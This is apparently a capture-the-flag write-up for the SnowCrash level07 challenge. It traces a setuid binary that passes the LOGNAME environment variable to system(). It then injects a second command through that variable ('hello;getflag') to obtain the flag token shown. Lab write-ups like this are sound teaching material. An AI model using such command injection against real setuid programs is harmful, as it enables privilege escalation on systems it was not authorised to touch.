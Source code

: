 After loggin to level07 we find a suid binary file called level07 in the home folder

When executing ltrace we find that the program calls for getenv taking the value of LOGNAME env variable

And executing echo with the value as follow

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                = 2007
geteuid()                                                = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
getenv("LOGNAME")                                        = "hello;whoami"
asprintf(0xbffff704, 0x8048688, 0xbfffff4b, 0xb7e5ee55, 0xb7fed280) = 23
system("/bin/echo hello;whoami "hello
level07
<unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++
```

Let's try and inject getflag command to the LOGNAME env variable, so when the binary try to execute /bin/echo $LOGNAME it gives us the flag

```
level07@SnowCrash:~$ LOGNAME='hello;whoami'
level07@SnowCrash:~$ ./level07
hello
flag07
level07@SnowCrash:~$ LOGNAME='hello;getflag'
level07@SnowCrash:~$ ./level07
hello
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```
